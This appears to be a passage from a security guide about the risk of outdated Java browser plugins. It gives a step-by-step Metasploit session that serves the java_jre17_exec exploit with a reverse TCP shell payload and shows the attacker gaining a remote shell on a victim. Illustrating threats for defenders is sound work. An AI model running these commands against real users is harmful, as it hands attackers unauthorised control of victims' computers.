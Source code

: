 
###### Outdated Java browser plugins

While the threat described below is more severe if carried out by a local attacker (as they can more readily direct the victim to a malicious Web site), it also works remotely. In fact, if a user can be tricked, by a remote attacker, into clicking on a malicious email or Web link, attacks like this represent a significant perimeter threat. By compromising the victim’s machine, they can give the attacker a local point-of-presence without requiring the attacker to crack WPA keys or gain local access in some other way.

Step 1: Using Metasploit, an attacker can easily create an ad hoc malicious Web site:

```
$ msfconsole

IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v4.7.0-dev [core:4.7 api:1.0]
+ -- --=[ 1114 exploits - 627 auxiliary - 178 post
+ -- --=[ 307 payloads - 30 encoders - 8 nops

msf > use exploit/multi/browser/java_jre17_exec

msf exploit(java_jre17_exec) > set PAYLOAD java/shell/reverse_tcp
PAYLOAD => java/shell/reverse_tcp

msf exploit(java_jre17_exec) > set LHOST 192.168.1.123
LHOST => 192.168.1.123

msf exploit(java_jre17_exec) > set SRVPORT 8081
SRVPORT => 8081

msf exploit(java_jre17_exec) > set URIPATH java_test
URIPATH => java_test

msf exploit(java_jre17_exec) > run
[*] Exploit running as background job.
```

Step 2: At this point, any local user who visits http://192.168.1.123:8081/java_test, and who is running a sufficiently out-of-date version of the Java browser plugin, stands a good chance of giving the attacker full access to his computer:

```
[*] Started reverse handler on 192.168.1.123:4444

msf exploit(java_jre17_exec) >

[*] Using URL: http://0.0.0.0:8081/java_test
[*] Local IP: http://192.168.1.123:8081/java_test
[*] Server started.

msf exploit(java_jre17_exec) >

<remote shell>
```

Figure 1: Attacker in control of the victim’s computer through a remote command shell
